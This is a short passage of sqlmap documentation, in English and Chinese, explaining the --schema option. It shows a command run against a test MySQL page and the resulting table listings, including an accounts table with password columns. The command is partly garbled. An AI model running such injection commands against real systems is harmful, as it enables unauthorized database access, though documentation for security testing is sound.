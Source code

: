 ```
User can retrieve a DBMS schema by using this switch. Schema listing will contain all databases, tables and columns, together with their respective types. In combination with `--exclude-sysdbs` only part of the schema containing non-system databases will be retrieved and shown.		
通过这个选项你可以获取DBMS的模式 模式中含有数据库、表、字段的信息 `--exclude-sysdbs`并不包含系统的数据库中的信息

Example against a MySQL target:

	```
	$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --s\
	chema--batch --exclude-sysdbs
	
	[...]
	Database: owasp10
	Table: accounts
	[4 columns]
	+-------------+---------+
	| Column      | Type    |
	+-------------+---------+
	| cid         | int(11) |
	| mysignature | text    |
	| password    | text    |
	| username    | text    |
	+-------------+---------+
	
	Database: owasp10
	Table: blogs_table
	[4 columns]
	+--------------+----------+
	| Column       | Type     |
	+--------------+----------+
	| date         | datetime |
	| blogger_name | text     |
	| cid          | int(11)  |
	| comment      | text     |
	+--------------+----------+
	
	Database: owasp10
	Table: hitlog
	[6 columns]
	+----------+----------+
	| Column   | Type     |
	+----------+----------+
	| date     | datetime |
	| browser  | text     |
	| cid      | int(11)  |
	| hostname | text     |
	| ip       | text     |
	| referer  | text     |
	+----------+----------+
	
	Database: testdb
	Table: users
	[3 columns]
	+---------+---------------+
	| Column  | Type          |
	+---------+---------------+
	| id      | int(11)       |
	| name    | varchar(500)  |
	| surname | varchar(1000) |
	+---------+---------------+
	[...]
	```

```